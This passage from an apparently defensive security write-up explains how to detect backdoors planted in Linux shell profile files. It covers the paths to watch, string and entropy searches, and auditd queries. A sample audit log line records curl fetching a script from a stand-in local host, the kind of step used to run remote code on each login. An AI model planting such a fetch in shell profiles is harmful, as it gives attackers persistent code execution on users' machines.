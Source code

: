 
### Detecting Modification

Hopefully this illustrates how powerful shell profiles are. It wouldn't make sense to not provide suggestions on how to detect this.

[Relevant file paths](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#shell-files):

- `/etc/profile`
- `/etc/profile.d/*`
- `/etc/bashrc`
- `/etc/bash_completion.d/*`
- `/etc/skel/*`
- `~/.bash*`
- `~/.profile`
- `~/.zshrc`
- `~/.zlogin`
- and more


**String Searching**

Regularly reviewing the (writable) files for strings such as protocol connection strings like `://` or `\\\\` can point to malicious behavior, especially in files that were recently modified that shouldn't have been.

Similarly, high-entropy or obviously encoded / obfuscated strings are indicators of suspicious activity. Conversely [low-entropy lists of words or plaintext referenced or put together by functions](https://github.com/yoda66/PythonShellcodeRedux/blob/main/words_encode.py) is another techique to "hide in plain sight". These make it hard to see an obvious backdoor just by reading the source code, but the command will be built and executed. This will appear in logs if you're monitoring for it, assuming this technique is not also wiping logs.


**auditd**

Using `auditd` you can record and find this behavior. Like Sysmon, [you'll need to configure what it records](https://github.com/straysheep-dev/setup-auditd). If you're monitoring the use of `curl`:

```bash
sudo ausearch -ts recent -c curl
```

Will show every time `curl` was executed in the last 10 minutes. If you followed along with the example then in your logs you'll find:

```
type=EXECVE msg=audit(<time>:<event-id>): argc=3 a0="curl" a1="-s" a2="http://127.0.1.1:1234/test.sh"
```

Which is a pretty good indicator and starting point for further investigation.

You can do the same with the file `.bashrc` itself:

```bash
sudo ausearch -ts recent -f bashrc
```
